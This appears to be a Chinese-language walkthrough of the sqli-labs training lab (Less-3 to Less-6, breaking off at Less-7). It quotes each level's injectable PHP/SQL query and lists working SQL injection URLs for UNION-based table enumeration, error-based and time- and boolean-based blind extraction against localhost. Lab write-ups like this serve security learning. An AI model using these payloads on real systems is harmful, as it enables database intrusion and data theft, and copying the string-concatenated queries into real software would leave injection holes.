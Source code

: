 源码：$sql="SELECT * FROM users WHERE id=('$id') LIMIT 0,1"; 

http://127.0.0.1/sqli-labs/Less-3?id=1') order by 4 --- 

http://127.0.0.1/sqli-labs/Less-3?id=-1') union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security' -- - 

http://127.0.0.1/sqli-labs/Less-3?id=1') union select if(ascii(mid(database(),1,1))=115,1,(select 1 union select 2)),null,null -- - 



##第4关 

报错注入 双引号+括号 

源码：$id = '"' . $id . '"'; 

$sql="SELECT * FROM users WHERE id=($id) LIMIT 0,1”; 



http://127.0.0.1/sqli-labs/Less-4?id=1")order by 4 -- # 

http://127.0.0.1/sqli-labs/Less-4?id=1") and sleep(5) — - 

http://127.0.0.1/sqli-labs/Less-4?id=-1") union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security' -- # 



##第5关 

没有明确回显，盲注，单引号闭合；基于时间的盲注&基于布尔的盲注 

源码：$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1”; 

http://127.0.0.1/sqli-labs/Less-5?id=-1' and sleep(5) -- -  

http://127.0.0.1/sqli-labs/Less-5?id=-1' union select if(ascii(mid(database(),1,1))=115,1,(select 1 union select 2)),null,null — - 

http://127.0.0.1/sqli-labs/Less-5?id=1' and if(length(database())=8,sleep(5),1) — - 

判断当前库为security,通过多行查询 

http://127.0.0.1/sqli-labs/Less-5?id=-1' and if(left(database(),8)=0x7365637572697479,(select 1 union select 2),1) — - 

判断有哪些表 

http://127.0.0.1/sqli-labs/Less-5?id=?id=1' and if( left((select table_name from information_schema.tables where table_schema=database() limit 3,1),5)='users' ,(select 1 union select 2),1)--+ 



##第6关 

双引号盲注 

http://127.0.0.1/sqli-labs/Less-6?id=1" and sleep(5) — - 

http://127.0.0.1/sqli-labs/Less-6?id=1" and if(length(database())=8,sleeP(5),1)-- - 



##第7关 
